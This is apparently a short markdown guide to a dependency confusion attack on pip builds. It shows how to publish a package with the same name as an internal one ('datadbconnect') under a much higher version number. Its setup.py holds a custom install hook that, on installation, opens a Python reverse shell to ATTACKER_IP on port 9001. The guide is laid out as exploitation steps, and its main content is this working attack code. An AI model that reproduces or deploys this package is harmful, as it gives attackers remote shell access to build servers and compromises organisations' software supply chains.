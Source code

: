 ## Dependency Confusion Attack: Quick Overview

- **Goal:** Trick a build server into installing a malicious package over an internal one by exploiting pip’s version resolution (highest version wins).

---

### Steps to Exploit

#### 1. Identify the Target
- **Internal Package Name:**  
  - E.g., `datadbconnect` (revealed by internal discussions or configuration).
- **Attack Strategy:**  
  - Create a malicious package with the same name but a much higher version (e.g., v9000.0.3).

#### 2. Create the Malicious Package

- **Directory Structure:**
  - `datadbconnect/`
    - `datadbconnect/__init__.py` (can be empty)
    - `setup.py`

- **Key `setup.py` Code:**
  
  ```python
  from setuptools import setup, find_packages
  from setuptools.command.install import install
  import os

  VERSION = "v9000.0.3"  # Higher than the internal version

  class MaliciousInstall(install):
      def run(self):
          install.run(self)
          print("Triggering reverse shell...")
          # Replace ATTACKER_IP and port with your listener's details.
          os.system(
              'python -c "import socket,subprocess,os;'
              's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
              's.connect((\'ATTACKER_IP\',9001));'
              'os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);'
              'subprocess.call([\'/bin/sh\', \'-i\'])"'
          )

  setup(
      name="datadbconnect",
      version=VERSION,
      packages=find_packages(),
      cmdclass={'install': MaliciousInstall},
  )
  ```

- **Note:** The post-install hook in the malicious package immediately executes the reverse shell code when installed.
